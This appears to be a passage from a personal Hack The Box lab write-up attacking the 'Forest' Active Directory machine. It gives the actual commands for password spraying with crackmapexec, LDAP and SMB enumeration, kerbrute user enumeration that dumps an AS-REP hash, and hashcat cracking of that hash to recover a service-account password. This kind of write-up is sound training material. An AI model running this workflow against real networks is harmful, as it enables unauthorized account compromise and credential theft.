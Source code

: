 ```
santi
cyril
```

and then modifying the rockyou.txt into a rule that it is minimally 7 characters
```
cp /usr/share/wordlists/rockyou.txt ./rockyou.txt
grep -E '.{7,}' rockyou.txt > modrockyou.txt
```

### password spraying
```
crackmapexec smb 10.10.10.161 -u user.list -p modrockyou.txt | grep +
```
this took too long so i decided to do more enumeration while it ran

## LDAP Enumeration
```
enum4linux 10.10.10.161 | egrep "Account|Domain|Lockout|group"
```
other than the information that we got above we got some information about the domain computers
```
Group: 'Domain Computers' (RID: 515) has member: HTB\EXCH01$
Group: 'Domain Computers' (RID: 515) has member: HTB\cyril$
Group: 'Domain Controllers' (RID: 516) has member: HTB\FOREST$
```

We can also get more information about group permissions and group permissions through
```
ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb,DC=local"
```

And then we can use kerbrute to find more infromation about that users we have in our userlist
```
kerbrute userenum -d htb.local --dc 10.10.10.161 user.list
```
we get 
```
2025/06/23 11:32:26 >  [+] svc-alfresco has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ddbd84fdef842095d214f3d2d58083c6$6c906b032834c9a5b56f2c7823b1a64dafb9abe6fea4ddd4a2cecf47a86830b8446d4939b0596c1db1cab6c5b896a6a21dd9fdb8b61dc068020f33cecf87d3861c12321feb8a1386adcc2a2497bbe408ba4cd902baf826e9732ea3150acf5c3e854c8a700e8a462509f814f96ae9d9ec554edab2bd67ffddaab25934548c6e294501346cadf0e4389830928ad175cb73732e4e7df4877e32019728810eec72c7d238b0a13c98b3a63b4a61904f61b5e3c55aa5c22f00f027df113602db79866d7db582259ad2b2946ba10f20cd8791b371c858052385860d559ce9e03d3146291391e8d5fd68
```
put the whole hash from `$krb5asrep....8d5fd68` into a file 

We can crack it with hashcat
```
hashcat -m 18200 hash.txt /usr/share/wordlist/rockyou.txt
```

We get the password for "svc-alfresco" is "s3rvice"
![](../Assets/Screenshot%202025-06-23%20at%2011.51.03%20AM.png)
